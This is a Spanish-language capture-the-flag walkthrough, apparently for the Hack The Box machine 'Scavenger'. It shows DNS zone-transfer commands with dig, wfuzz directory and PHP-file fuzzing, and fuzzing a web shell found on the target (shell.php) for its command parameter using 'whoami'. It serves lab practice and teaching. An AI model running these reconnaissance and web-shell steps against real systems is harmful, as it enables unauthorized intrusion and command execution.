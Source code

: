 
Ya podemos añadir estos dominios en el 
```bash
 /etc/hosts 
```
.

```{r, echo = FALSE, fig.cap="hosts despues del sqli", out.width="90%"}
    knitr::include_graphics("images/scavenger-hosts3.png")
```

### Ataque de transferencia de zona Part 2 {-}
![scaveer-hosts3](/assets/images/scavenger-hosts3.png) 

```bash
dig @10.10.10.155 justanotherblog.htb axfr
dig @10.10.10.155 pwnhats.htb axfr
dig @10.10.10.155 rentahacker.htb axfr
```

El ultimo dominio nos muestra un dominio turbio 
```bash
 sec03.rentahacker.htb 
```
. Lo añadimos nuevamente en el 
```bash
 /etc/hosts 
```
 y por firefox
nos conectamos. Por fin algo nuevo.

Esta pagina nos hace pensar que gente ya a hackeado la pagina por otros *Haxxors*. Si es el caso, fuzzeamos la pagina.

### Web Fuzzing con WFuzz {-}

```bash
wfuzz -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://sec03.rentahacker.htb/FUZZ
```

Aqui hay un poco de todo. Intentamos fuzzear por archivos **PHP**

```bash
wfuzz -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://sec03.rentahacker.htb/FUZZ.php
```

Ya encontramos un fichero **shell.php**. Visitamos la pagina por firefox y efectivamente parece una shell pero no tenemos el nombre
del comando usado para ejecutar los comandos. Lo buscamos con **WFUZZ** diciendole de ocultar las respuestas que retornan 0 palabras.

```bash
wfuzz -c -t 200 --hc=404 --hw=0 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://sec03.rentahacker.htb/shell.php?FUZZ=whoami
```
